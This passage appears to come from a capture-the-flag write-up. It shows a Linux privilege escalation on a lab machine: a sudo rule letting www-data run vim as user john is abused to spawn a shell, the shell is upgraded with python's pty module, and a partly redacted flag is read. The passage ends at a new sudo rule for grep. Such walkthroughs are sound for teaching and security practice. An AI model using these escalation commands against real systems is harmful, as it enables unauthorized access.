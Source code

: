 ```bash
User www-data may run the following commands on 0717c3460eb4:
    (john) NOPASSWD: /bin/vim
$ 


```

## Privilege Escalation:

Here we can [exploit](https://gtfobins.github.io/gtfobins/vim/) that `vim` binary to get `john` user.

```bash
$ sudo -l
Matching Defaults entries for www-data on 0717c3460eb4:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on 0717c3460eb4:
    (john) NOPASSWD: /bin/vim

$ sudo -u john /bin/vim -c ':!/bin/sh'

:!/bin/sh
whoami
john
id
uid=1000(john) gid=1000(john) groups=1000(john),33(www-data)

```

Let's get interactive TTY shell using `python`.

```bash
which python
/usr/bin/python3

python3 -c 'import pty; pty.spawn("/bin/bash")'

Low_Priv Shell $:
```

We will get our first flag on `/home/john/flag_1.txt`
```bash
Low_Priv Shell $:cat flag_1.txt
cat flag_1.txt
bfebba9e53{REDACTED}
Low_Priv Shell $:

```

When we check for sudo privilege for `john`, we will see there is an another user called `david`.

```bash
Low_Priv Shell $:sudo -l
sudo -l
Matching Defaults entries for john on 0717c3460eb4:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on 0717c3460eb4:
    (david) NOPASSWD: /bin/grep

```
